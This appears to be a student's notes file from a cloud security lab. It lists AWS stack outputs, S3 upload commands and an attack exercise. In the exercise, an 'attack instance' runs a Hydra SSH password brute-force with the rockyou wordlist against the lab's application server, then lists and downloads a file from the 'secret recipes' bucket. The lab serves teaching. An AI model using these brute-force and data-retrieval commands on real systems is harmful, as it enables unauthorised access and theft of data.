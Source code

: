 # Exercise 1

## Outputs

BucketArnVPCFlowLogs	arn:aws:s3:::cand-c3-vpc-flow-logs-787614237147
BucketNameRecipesFree	cand-c3-free-recipes-787614237147
BucketNameRecipesSecret	cand-c3-secret-recipes-787614237147

ApplicationInstanceIP	ec2-3-224-223-36.compute-1.amazonaws.com
ApplicationURL	c1-web-service-alb-143963776.us-east-1.elb.amazonaws.com
AttackInstanceIP	ec2-52-202-180-62.compute-1.amazonaws.com

## Upload data

aws s3 cp free_recipe.txt s3://cand-c3-free-recipes-787614237147/ --region us-east-1

aws s3 cp secret_recipe.txt s3://cand-c3-secret-recipes-787614237147/ --region us-east-1

## Test app

http://c1-web-service-alb-143963776.us-east-1.elb.amazonaws.com/free_recipe


# Exercise 3

## Connect to attack instance

ssh -i ../recipe-vault-key.pem ubuntu@ec2-52-202-180-62.compute-1.amazonaws.com
ssh -i ../recipe-vault-key.pem ubuntu@ec2-3-85-137-57.compute-1.amazonaws.com

## Run the attack

hydra -l ubuntu -P rockyou.txt ssh://ec2-3-224-223-36.compute-1.amazonaws.com

## Task 2
### view the files in the secret recipes bucket
aws s3 ls  s3://cand-c3-secret-recipes-787614237147/ --region us-east-1
### download the files
aws s3 cp s3://cand-c3-secret-recipes-787614237147/secret_recipe.txt  .  --region us-east-1
### view contents of the file
cat secret_recipe.txt